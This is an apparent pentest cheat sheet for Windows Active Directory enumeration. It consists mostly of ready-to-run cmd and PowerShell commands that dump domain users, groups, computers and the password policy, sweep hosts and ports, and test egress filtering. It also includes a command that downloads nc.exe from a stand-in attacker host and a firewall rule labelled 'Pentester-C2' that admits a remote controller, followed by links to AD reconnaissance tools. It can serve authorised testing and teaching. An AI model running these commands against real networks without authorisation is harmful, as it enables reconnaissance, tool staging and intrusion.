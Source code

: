 # Domain Enumeration

## Command Tools (cmd.exe)

Display Networking Info
```CMD
ipconfig /all
```
Display Domain
```CMD
echo %USERDOMAIN%
```
Display Domain Controller
```CMD
echo %logonserver%
```
Display Domain Password Policy
```CMD
net accounts /domain
```
Display DC Address, Domain Name, Roles
```CMD
wmic ntdomain
```
Display All Domain Users
```CMD
wmic /NAMESPACE:\\root\directory\ldap PATH ds_user GET ds_samaccountname
```
Display All Domain Groups
```CMD
wmic /NAMESPACE:\\root\directory\ldap PATH ds_group GET ds_samaccountname
```
Display All Domain Computers
```CMD
wmic /NAMESPACE:\\root\directory\ldap PATH ds_computer GET ds_samaccountname
```

## PowerShell Tools

Ping Sweeper
```PowerShell
 1..255 | % {echo "192.168.1.$_"; ping -n 1 -w 100 192.168.1.$_ | Select-String ttl}
```
Port Sweeper
```PowerShell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("<IPADDR>", $_)) "Port $_ is open!"} 2>$null
```
Sweep Range of IPs for Single Port
```PowerShell
foreach ($ip in 1..20) {Test-NetConnection -Port 80 -InformationLevel "Detailed" 192.168.1.$ip}
```
Sweep IPs and Ports
```PowerShell
1..20 | % { $a = $_; 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.$a",$_)) "Port $_ is open!"} 2>$null}
```
Test Egress Filtering
```PowerShell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("allports.exposed",$_)) "Port $_ is open" } 2>$null
```
Web Client to Download Files (eg NetCat)
```PowerShell
wget "http://10.10.10.10/nc.exe" -outfile "c:\nc.exe"
```
Get Firewall Rules
```PowerShell
Get-NetFirewallRule -all | Out-GridView
 Get-NetFirewallRule -all | Export-csv <file_path.csv>
```
Add Firewall Rule
```PowerShell
New-NetFirewallRule -Action Allow -DisplayName Pentester-C2 -RemoteAddress <IPADDR>
```

 




 https://www.sans.org/blog/pen-test-poster-white-board-powershell-built-in-port-scanner/

## Domain Enumeration Resources
* Information dumper via LDAP: https://github.com/dirkjanm/ldapdomaindump
* Integrated DNS dumping by any authenticated user: https://github.com/dirkjanm/adidnsdump
* Advanced Discovery of Privileged Accounts: https://github.com/cyberark/ACLight
* Detailed Active Directory Recon Tool: https://github.com/sense-of-security/ADRecon
* Powershell AD Enumeration: https://www.exploit-db.com/docs/english/46990-active-directory-enumeration-with-powershell.pdf
* Data collector tool: https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html